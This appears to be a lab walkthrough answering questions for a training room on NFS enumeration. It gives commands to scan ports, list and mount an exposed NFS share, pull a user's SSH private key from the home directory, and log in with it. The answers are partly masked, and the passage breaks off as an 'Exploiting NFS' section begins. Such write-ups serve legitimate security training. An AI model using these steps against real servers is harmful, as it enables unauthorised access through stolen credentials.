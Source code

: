 Conduct a thorough port scan of your choosing, how many ports are open?

- `nmap -A -p- {ROOM_IP}`

Which port contains the service we're looking to enumerate?

- Look for `nfs_acl` in the listed ports.

Now, use `/usr/sbin/showmount -e {ROOM_IP}` to list the NFS shares, what is the name of the visible share?

- Run the command and you will see it listed.
- `/***e`

Time to mount the share to our local machine!

First, use `mkdir /tmp/mount` to create a directory on your machine to mount the share to. This is in the `/tmp` directory, so be aware that it will be removed on restart.

Then, use the `mount` command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share - what is the name of the folder inside?

- `sudo mount -t nfs {ROOM_IP}:home /tmp/mount/ -nolock`
- Then `cd /tmp/mount` to go to the `mount` directory and then `ls -la` shows a directory inside called `ca*******`.

Have a look inside this directory, look at the files. Looks like we're inside a user's home directory...

- `cd ca*******`

Interesting! Let's do a bit of research now, have a look through the folders. Which of these folde**rs** could cont**a**in keys that would give us remote access to the server?

- `ls -la`
- `.**h` directory has `**_***` file which we can use to **securely** access remote server.

Which of these keys is most useful to us?

- `**_***`

Copy this file to a different location your local machine, and change the permissions to "600" using "chmod 600 [file]".

- `cp **_*** /home/kali/`
- Then `cd /home/kali` and `chmod 600 **_***`.

Assuming we were right about what type of directory this is, we can pretty easily work out the name of the user this key corresponds to.

Can we log into the machine using `ssh -i <key-file> <username>@<ip>`? (Y/N)

- `ssh -i **_*** ca*******@{ROOM_IP}`

#### Exploiting NFS

Lets do this!

First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

